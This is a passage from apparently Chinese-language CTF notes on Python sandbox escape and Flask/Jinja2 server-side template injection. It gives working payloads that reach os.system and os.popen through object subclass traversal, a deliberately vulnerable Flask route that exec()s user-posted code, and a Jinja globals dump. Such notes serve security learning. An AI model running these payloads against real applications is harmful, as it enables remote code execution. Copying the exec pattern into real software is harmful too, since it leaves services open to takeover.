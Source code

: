**os._wrap_close**在os.py里定义，他的init函数globals属性获取到的全局变量与函数包括在os.py里定义的，有system,popen

```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("")
```

**warnings.catch_warnings**类在在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__(很多模块都包含builtins吧)

```python
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__=='catch_warnings'][0]()._module.__builtins__['__import__']("os").system("cat ../flag templates/rce.html")
```

#### 7.复写函数

```python
global render_template;render_template=lambda x:__import__('os').popen('').read()
```

### 题目：python沙箱2

```python
from flask import *
app = Flask(__name__)


@app.route('/rce', methods=['GET', 'POST'])
def rce():
    if request.method == 'POST':
        code = request.form['code']
        restricted_globals = {
             '__builtins__': {},
        }
        exec(code, restricted_globals)
    return render_template('rce.html')


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

沙箱里没有全局变量全局函数（builtin的，flask的都没），利用继承关系逃逸

## python ssti

![image-20250118152124960](C:\Users\tiand\AppData\Roaming\Typora\typora-user-images\image-20250118152124960.png)

SSTI 是指通过模板引擎（如 Jinja2）执行恶意模板语法，从而导致远程代码执行的漏洞。在 Flask 中，Jinja2 是默认的模板引擎，它的语法允许动态生成 HTML 内容，但不当使用时可能被攻击者利用。

### 查看flask的jinja2沙箱中globals(全局变量与全局函数)

```python
from flask import Flask

app = Flask(__name__)


@app.route('/')
def index():
    jinja_globals = app.jinja_env.globals

    print(jinja_globals)
    return "jinja_globals"
#获取沙箱中全局变量全局函数

```
